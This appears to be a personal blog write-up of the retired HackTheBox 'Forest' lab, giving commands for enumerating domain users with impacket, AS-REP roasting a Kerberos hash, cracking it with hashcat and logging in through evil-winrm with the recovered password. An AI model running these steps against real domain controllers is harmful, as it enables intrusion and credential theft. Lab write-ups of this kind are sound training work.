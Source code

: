 ```yaml
---
published: true
layout: post
title: Forest
---
```


I've had this written for a decent amount of time, but forgot about it. Since Forest has now been retired I can post. 

This was my first ever hackthebox experience. Maybe a Domain Controller wasn't the easiest option there, but it was an excellent learning experience.

### enumeration

Here is my firstnmap result. I will explain later what my mistake was. Nevertheless the first scan gave an indication that it is a domain controller.

{% highlight bash %}
nmap -sV -sS 10.10.10.161
{% endhighlight %}

![nmap1]({{ site.baseurl }}/images/HTB/forest/nmap1.png)

My initial mistake was not scanning every single port, later on we find out why.

My next plan was to figure out what we can do with the information given to us in the scan. Considering it is a Domain Controller (Windows Server 2016) I googled around for tools and techniques.

This is where I Found impacket. After reading notes, and a couple of hints from HTB forums I decided this was a good place to start.

Notes: [Impacket](https://www.secureauth.com/labs/open-source-tools/impacket)

You can install it with:

{% highlight bash %}
git clone https://github.com/SecureAuthCorp/impacket
{% endhighlight %}

I placed it in a directory I made for this specific lab at `/root/htb/`

After reading through the notes that SecureAuth provides on their tool the best course of action was to enumerate a list of users. Knowing a bit about Windows the script `samrdump.py`	caught my eye.

running it with the IP only worked.   

{% highlight bash %}
sudo ./samrdump.py 10.10.10.161
{% endhighlight %}

![Enumerated Users]({{ site.baseurl }}/images/HTB/forest/enumerateuser.png)

### exploiting the user

Now what do we do with this list of users? Honestly I went to the HTB forums for a hint on this one. One user mentioned using 'impacket' for this portion as well, a trend is forming.

After playing around with multiple different scripts and users I came across `GetNPUsers.py`

What exactly does this script do? It attempts to list and get TGTs for users that have the property `UF_DONT_REQUIRE_PREAUTH`
The output is compatible with JtR but I decided to use hashcat instead.

{% highlight bash %}
sudo ./GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161 -k -no-pass -format hashcat
{% endhighlight %}

While I'm unsure if the syntax is entirely correct. Specifically the `dc-ip` portion: this was the output:

![ticket hash]({{ site.baseurl }}/images/HTB/forest/grabticket.png)

Now we just send it through hashcat with:
 
{% highlight bash %}
hashcat -m 18200 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt
{% endhighlight %}

We're using 18200 because this is a kerberos hash. 13100 provided no output.

![cracked hash]({{ site.baseurl }}/images/HTB/forest/crackedhash.png)

Notice the cracked hash gives us the password: `s3rvice` 

It took me a bit of time to figure out what to do with these credentials. I spent a few hours tinkering with the impacket tools and wasn't getting any results. So I took to the forums and asked for a hint.

![help]({{ site.baseurl }}/images/HTB/forest/enumhigher.png)

This prompted me to run a more detailed nmap scan with

 *note*: I also made a mistake here, I should have used the `-p-` option rather than a manual port range.
 
{% highlight bash %}
nmap -sV -sS -p 1-55000 10.10.10.161
{% endhighlight %}



![Better Nmap]({{ site.baseurl }}/images/HTB/forest/betternmap.png)


My original mistake was not doing a thorough enough nmap scan. Without it I would not have known the port for WinRM was open. I decided to google around for a WinRM shell and came across `Evil-WinRM` on Github.

{% highlight bash %}
git clone https://github.com/Hackplayers/evil-winrm
{% endhighlight %}

Make sure ruby and the necessary packages are installed.

{% highlight bash %}
./evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p s3rvice
{% endhighlight %}

This will give us a usershell. 

![User Shell]({{ site.baseurl }}/images/HTB/forest/usershell.png)

The user flag was right on the desktop. Along with a couple other scripts.

![User Flag]({{ site.baseurl }}/images/HTB/forest/userflag.png)


### Closing


This is currently where I am stuck. Privilege escelation has something to do with mapping the Active Directory with bloodhound after reading some hints. Even though I did not get root I learned a TON. I will continue to read up on Bloodhound and try to figure out what I'm doing wrong.

This box taught me:
- More in depth understanding of Kerberos.
- Impacket, I had no idea this existed before.
- Improved skills with enumeration.
- Better understanding on picking up a script's syntax.







